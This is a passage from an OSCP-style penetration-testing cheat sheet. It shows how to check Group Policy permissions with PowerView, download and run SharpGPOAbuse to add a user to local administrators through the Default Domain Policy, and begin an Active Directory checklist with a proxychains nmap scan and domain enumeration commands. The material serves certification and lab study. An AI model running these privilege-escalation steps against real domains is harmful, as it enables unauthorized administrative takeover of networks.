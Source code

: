 - With the Id and in `PowerView.ps1` run this command

`Get-GPPermission -Guid <Id> -TargetType User -TargetName <CurruentUsername>`

![image](https://github.com/cbass12321/OSCP-Cheat-Sheets/assets/99432278/f3e4bec8-ee58-46ee-a5b6-fbb114082715)

- If permissions are set as the same above (`GpoEditDeleteModiySecuirty`) Transfer Sharp (Download .exe here: https://github.com/byronkg/SharpGPOAbuse/tree/main/SharpGPOAbuse-master)

then run `ShapGPOAbuse.exe`

`.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount <username> --GPOName "Default Domain Policy"`

- then update the GPO

`gpupdate /force`

- check if user is admin

`net user <username>`

DONE!@#$

### Great lil cheat sheet

https://github.com/isch1zo/Windows-PrivEsc-cheatsheat

---


# Active Directory Magic

## Checklist

### 00. Scanning

`proxychains nmap -sT 21,22,23,25,53,80,88,135,161,389,445,8000,8080,3389,5985,3306,3307,1433,5432 -iL int_hosts.txt`

### 01. Getting Users and Groups

- What users belong to groups that allow remote management? (RDP, winRM)

### On Windows (Depends on Domain Policies)

### Net

- `net user /domain` all users in domain
- `net user username /domain` information on a domain user
- `net group /domain`
- `net group groupname /domain`
- `nltest /dclist:<domain>` find domain controller (not for OSCP)

### PowerView
